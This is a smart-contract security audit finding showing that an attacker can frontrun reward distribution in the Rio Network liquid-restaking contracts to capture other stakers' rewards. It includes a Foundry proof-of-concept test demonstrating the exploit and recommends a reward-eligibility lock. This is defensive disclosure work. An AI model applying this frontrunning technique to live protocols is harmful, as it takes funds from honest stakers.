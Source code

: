 Deep Daisy Cricket

medium

# Attacker can frontrun `rewardDistribution` to steal other stakers reward

## Summary
Attacker can steal other stakers reward by frontrunning `RioLRTOperatorDelegator::scrapeNonBeaconChainETHFromEigenPod()`

## Vulnerability Detail
DepositPool receives the reward from `RioLRTRewardDistributor` after calling `RioLRTOperatorDelegator::scrapeNonBeaconChainETHFromEigenPod()`.
```solidity
 function scrapeNonBeaconChainETHFromEigenPod() external {
        eigenPod.withdrawNonBeaconChainETHBalanceWei(
    @>        address(rewardDistributor()), eigenPod.nonBeaconChainETHBalanceWei()
        );
    }
```
```solidity
    receive() external payable {
        ////Code.....
        if (treasuryShare > 0) treasury.transferETH(treasuryShare);
        if (operatorShare > 0) operatorRewardPool.transferETH(operatorShare);
  @>      if (poolShare > 0) address(depositPool()).transferETH(poolShare);

        emit ETHValidatorRewardsDistributed(treasuryShare, operatorShare, poolShare);
    }
```
 This reward is `distributed` among all the `stakers`, who are holding LRTtoken(Basically it increases the value of LRTtoken). An attacker can `frontrun` this and deposit asset to `depositPool` to receive the rewards and can `withdraw` immediately(in the current epoch) after receiving rewards, stealing other users reward.

// Here is the POC(this test is simplified version, which shows attacker can frontrun reward distribution and steal rewards)
```solidity
 function test_rewardDistributionCanBeFrontrun() public {
        uint256 initialTotalSupply = reETH.token.totalSupply();

        //Depositing 10 ether frontrunning reward distribution
        uint256 LRTtoken = reETH.coordinator.depositETH{value: 10 ether}();
        //DepositPool receives 2 ether in rewards
        (bool success,) = address(reETH.depositPool).call{value: 2 ether}('');
        assertTrue(success);
        //Requesting for withdrawl
        reETH.coordinator.requestWithdrawal(ETH_ADDRESS, LRTtoken);

        uint256 withdrawalEpoch = reETH.withdrawalQueue.getCurrentEpoch(ETH_ADDRESS);

        // Rebalance to settle the withdrawal.
        vm.prank(EOA, EOA);
        reETH.coordinator.rebalance(ETH_ADDRESS);

        IRioLRTWithdrawalQueue.EpochWithdrawalSummary memory epochSummary =
            reETH.withdrawalQueue.getEpochWithdrawalSummary(ETH_ADDRESS, withdrawalEpoch);
        IRioLRTWithdrawalQueue.UserWithdrawalSummary memory userSummary =
            reETH.withdrawalQueue.getUserWithdrawalSummary(ETH_ADDRESS, withdrawalEpoch, address(this));

        // Ensure the reETH was burned.
        assertEq(reETH.token.totalSupply(), initialTotalSupply);

        assertTrue(epochSummary.settled);
        //Received asset is > 10 ether ie more than deposited
        assertGt(epochSummary.assetsReceived, 10 ether);
        assertGt(epochSummary.shareValueOfAssetsReceived, 10 ether);

        assertFalse(userSummary.claimed);

        // Claim the withdrawal.
        uint256 amountOut = reETH.withdrawalQueue.claimWithdrawalsForEpoch(
            IRioLRTWithdrawalQueue.ClaimRequest({asset: ETH_ADDRESS, epoch: withdrawalEpoch})
        );
        assertGt(amountOut, 10 ether);
    }
```
Run this test in `RioLRTWithdrawalQueueTest.t.sol` file

## Impact
Honest stakers will loose on rewards

## Code Snippet
https://github.com/sherlock-audit/2024-02-rio-network-core-protocol/blob/main/rio-sherlock-audit/contracts/restaking/RioLRTOperatorDelegator.sol#L150C4-L154C6

https://github.com/sherlock-audit/2024-02-rio-network-core-protocol/blob/main/rio-sherlock-audit/contracts/restaking/RioLRTRewardDistributor.sol#L82C1-L94C6

## Tool used
Manual Review

## Recommendation
Use some sort of locking mechanism that only after certain period, new staker can be eligible for rewards